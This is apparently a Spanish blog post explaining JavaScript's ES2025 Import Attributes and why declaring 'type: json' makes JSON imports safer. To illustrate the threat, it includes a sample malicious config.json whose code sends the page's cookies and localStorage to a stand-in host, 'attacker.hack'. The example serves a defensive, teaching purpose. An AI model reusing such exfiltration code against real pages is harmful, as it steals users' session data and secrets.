 ```yaml
---
title: "Lo nuevo de JavaScript ES2025: Import Attributes"
description: Una nueva forma de hacer que las importaciones de módulos sean más seguras.
date: 2024-11-22T21:33:25.684Z
update: 2025-09-12T13:03:04.439Z
hero: ./js-es2025.svg
heroAlt: JavaScript ES2025
og: ./js-es2025.png
tags:
  - Programación
  - JavaScript
  - JSON
sources:
  - title: JavaScript Import Attributes (ES2025) - Trevor I. Lasn
    href: https://www.trevorlasn.com/blog/import-attributes-in-javascript
  - title: Import Attributes - TC39
    href: https://tc39.es/proposal-import-attributes/
  - title: Import Attributes - TC39 (GitHub)
    href: https://github.com/tc39/proposal-import-attributes
themeColor: "#f0db4f"
---
```


<BaselineStatus id="json-modules" />

JavaScript incluyó **Import Attributes**, una característica que te permite declarar explícitamente qué tipo de módulo estás importando. Esta adición aporta mayor seguridad y claridad a las importaciones de módulos, especialmente para JSON y otros módulos que no son de JavaScript.

## El problema con las extensiones de archivo

Al importar módulos en la web, no podemos usar de forma fiable las extensiones de archivo para determinar el tipo de módulo. Un servidor podría enviar código JavaScript incluso cuando se solicita un archivo con extensión `.json`, lo que podría crear riesgos de seguridad:

```js title="main.js"
import config from "./config.json";
```

Lo que esperas recibir:

```json title="config.json"
{
  "accessToken": "secret-key",
  "refreshToken": "secret-key",
  "expiresAt": "2125-01-21T21:35:34.607Z"
}
```

Lo que un servidor comprometido podría enviar en su lugar:

```js title="config.json"
export default (function () {
  // Envía sus claves API a un atacante
  fetch("https://attacker.hack", {
    method: "POST",
    body: JSON.stringify({
      cookies: document.cookie,
      localStorage: window.localStorage
    })
  });

  // Luego devuelve lo que parece una configuración normal
  return {
    accessToken: "secret-key",
    refreshToken: "secret-key",
    expiresAt: "2125-01-21T21:35:34.607Z"
  }
})();
```

## La solución: Import Attributes

Los Import Attributes te permiten declarar explícitamente qué tipo de módulo esperas recibir, creando un contrato que los entornos de JavaScript deben hacer cumplir:

```diff title="main.js"
- // SIN Import Attributes - potencialmente inseguro
- import config from "./config.json";
+ // CON Import Attributes - importación segura de JSON
+ import config from "./config.json" with { type: "json" };
```

## ¿Dónde se pueden usar los Import Attributes?

La sintaxis funciona de manera consistente en diferentes escenarios de importación:

```js
// Importaciones regulares
import config from "./config.json" with { type: "json" };

// Importaciones dinámicas
const config = await import("./config.json", {
  with: { type: "json" }
});

// Re-exportaciones
export { apiKey } from "./config.json" with { type: "json" };

// Módulos JavaScript
import module from "./module.js" with { type: "javascript" };

// Web Workers
new Worker("worker.wasm", {
  type: "module",
  with: { type: "webassembly" }
});
```

## Beneficios clave

- **Seguridad**: Al importar módulos JSON, el atributo `type: "json"` garantiza que recibirás datos JSON o un error, pero nunca código ejecutable.
- **Consistencia**: Proporciona una forma estándar de manejar diferentes tipos de módulos en todos los entornos de JavaScript.
- **Extensibilidad**: Aunque los módulos JSON son el primer caso de uso, la sintaxis está diseñada para admitir futuros tipos de módulos y atributos de metadatos adicionales.
- **Control de Caché**: Los *hosts* (entornos de ejecución) pueden usar los atributos como parte de su estrategia de caché de módulos, y el comportamiento es definido por cada entorno.

## Aplicaciones prácticas

- **Módulos JSON**: El caso de uso principal de los atributos de importación es cargar módulos JSON de forma fiable. Al especificar `type: "json"`, garantizas que el servidor entregue los datos como JSON y no como código potencialmente malicioso.
- **Importaciones dinámicas**: Los atributos de importación permiten usar importaciones dinámicas (`await import()`) y tener control sobre el tipo de módulo, lo que las hace más flexibles para diversos casos de uso.
